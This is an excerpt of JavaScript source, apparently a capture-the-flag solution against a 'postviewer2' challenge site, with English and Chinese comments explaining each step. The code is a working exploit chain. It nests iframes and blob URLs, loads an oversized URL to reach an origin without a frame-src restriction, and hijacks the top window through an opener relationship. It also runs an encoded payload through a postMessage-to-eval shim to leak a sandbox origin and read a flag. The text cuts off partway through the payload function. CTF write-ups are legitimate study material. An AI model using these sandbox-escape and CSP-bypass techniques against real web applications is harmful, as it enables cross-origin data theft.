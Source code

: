 ```html
        deepIfr.location = URL.createObjectURL(new Blob([`<iframe name="deepIframe" onload=top.postMessage('loaded','*')>`], { type: 'text/html' }));
        const shimIfr = ifr1.contentWindow[0]; //shim.html创建的iframe。目前ifr1.contentWindow=shim.html，ifr1.contentWindow[0]=shim.html的用于展示内容的iframe，ifr1.contentWindow[0][0]=我们自己在内容里写的iframe
        await formsg('loaded');
        
        /**
         * Step 3:
         * The main app can be only iframed by *.postviewer2-web origins. However, shim domains have frame-src blob:
         * so it's not possible to directly iframe the main app. Instead, we use find a subpage on sbx-random origin
         * that doesn't set frame-src. One possibility is to just load a long URL that will be blocked on balancer side
         */

        const longUrl = `https://sbx-random.postviewer2-web.2023.ctfcompetition.com/${'a'.repeat(200000)}`

        /**
         * Step 4:
         * Normally, iframes are not able to redirect a top window to prevent frame busting (https://chromestatus.com/feature/5851021045661696).
         * However, openee can redirect its opener so we call open(url, "deepIframe") to establish that connection.
         * As a parent, you can open context to all children and grand children.
         */ 

        open(longUrl, 'deepIframe'); //在longUrl处加载deepIframe标签页。deepIframe就是上面deepIfr.location = URL.createObjectURL里的deepIframe
        
        
        await formsg('loaded');
        await sleep(1000);
        
        /**
         * Step 5: 
         * Use the evaluator to create a Blob from csp-less sbx-random origin
         * and redirect top window to it.
         */
        //shimIfr的内容为<script>onmessage=e=>eval(e.data);</script>，所以这里post的message会被eval。个人觉得接下来几个套娃iframe分别为：
        //top[0]=shim.html,top[0][0]=shim.html中的iframe，top[0][0][0]=deepIfr，top[0][0][0][0]=new Blob([`<iframe name="deepIframe" onload=top.postMessage('loaded','*')>`中的iframe
        //这里的eval是contentWindow自带的。将当前solve.html跳转到POC所在的url
        shimIfr.postMessage(`top[0][0][0][0].eval(\`top.location = URL.createObjectURL(new Blob(['<script>eval(atob("${btoa("(" + POC + ")()")}"))<\/script>'], {type: 'text/html'}))\`)`, '*');

        /** Steps 6, 10 execute the following:
         *  6. Iframe main page and select flag
         *  7. Leak flag's frame random's origin (e.g. sbx-dasjkdbkjsda) via ancestorOrigins property
         *  8. Once leaked, spawn an iframe pointing to sbx-dasjkdbkjsda
         *  9. From the forged iframe, read the blob URL of the flag contents
         *  10. Fetch the blob with flag and display it.
         */ 

        function POC() {
            const sleep = d => new Promise(r => setTimeout(r, d));
            /* Step 6 */
            onload = async () => {
                var x = document.createElement('iframe');
```